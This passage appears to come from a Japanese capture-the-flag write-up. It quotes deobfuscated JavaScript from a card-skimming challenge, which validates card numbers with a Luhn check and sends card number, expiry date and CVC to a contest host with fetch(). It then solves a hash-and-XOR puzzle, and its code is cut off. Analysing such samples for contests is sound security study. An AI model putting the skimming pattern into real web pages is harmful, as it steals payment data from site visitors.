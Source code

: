 ```javascript
    const _0x3e5fd8 = "https://pg3.2025winter-cybercontest.net/pg3?cardnumber=" + encodeURIComponent(_0x9ae3dd) + "&exp-date=" + encodeURIComponent(_0x57060f) + "&cvc=" + encodeURIComponent(_0x33294f) + "&" + _0x5930f7;
    return _0x3e5fd8;
  }
  function _0x12237f(_0x8c4fb5) {
    let _0x39e251 = 0;
    let _0x5d648f = false;
    for (let _0x23cadc = _0x8c4fb5.length - 1; _0x23cadc >= 0; _0x23cadc--) {
      let _0x3adf4b = parseInt(_0x8c4fb5[_0x23cadc]);
      if (_0x5d648f) {
        _0x3adf4b *= 2;
        if (_0x3adf4b > 9) {
          _0x3adf4b -= 9;
        }
      }
      _0x39e251 += _0x3adf4b;
      _0x5d648f = !_0x5d648f;
    }
    return _0x39e251 % 10 === 0;
  }
  let _0x24d3e7 = _0x3bb027();
  fetch(_0x24d3e7);
});
```
_0x3bb027という関数がリクエストURLを組み立てているようです。
この値をそのまま使えば良さそうです。
```javascript
(async () => {
    const res = await fetch("https://pg3.2025winter-cybercontest.net/pg3?cardnumber=1&exp-date=1000000&cvc=1&Skimming=true");
    console.log(await res.text());
})();
```
```
flag{f1iping_de0bfuscat0r}
```

### loop in loop

2つの文字列をハッシュアルゴリズムによりハッシュ化し、それらの値を二重for loopでXORしていきフラグを求める問題です。
これは問題文にアルゴリズムがそのまま書いてあるので、それを実装すればいいだけです。
```javascript
const crypto = require('crypto');

function ripemd160(str) {
    return crypto.createHash('ripemd160').update(str).digest('hex');
}

function processStrings(str1, str2) {
    const hash1 = ripemd160(str1);
    const hash2 = ripemd160(str2);

    let result = 0;

    for (let i = 0; i < hash1.length; i++) {
        const char1 = hash1[i];
        if (!["0", "1", "2", "3", "4", "5", "6", "7", "8", "9"].includes(char1)) {
            continue;
        }
        for (let j = 0; j < hash2.length; j++) {
            const char2 = hash2[j];
            if (!["0", "1", "2", "3", "4", "5", "6", "7", "8", "9"].includes(char2)) {
                continue;
```